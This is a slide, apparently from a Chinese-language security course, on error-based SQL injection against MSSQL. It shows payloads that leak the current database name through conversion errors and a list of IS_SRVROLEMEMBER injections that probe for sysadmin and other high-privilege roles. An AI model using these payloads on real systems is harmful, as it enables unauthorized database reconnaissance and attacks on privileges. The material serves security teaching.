

MSSql报错注入
MSSql报错注入的过程
4、获取当前数据库：
payload：and db_name()>0
                  and 1=db_name()
说明：在将 nvarchar 值 'ichunqiu' 转换成数据类型 int 时失败。所以会将数据库名字显示出来

5、判断当前服务器角色是否拥有比较高的权限：
语句：
and 1=(select IS_SRVROLEMEMBER('sysadmin'))
and 1=(select IS_SRVROLEMEMBER('serveradmin'))
and 1=(select IS_SRVROLEMEMBER('setupadmin'))
and 1=(select IS_SRVROLEMEMBER('securityadmin'))
and 1=(select IS_SRVROLEMEMBER('diskadmin'))
and 1=(select IS_SRVROLEMEMBER('bulkadmin'))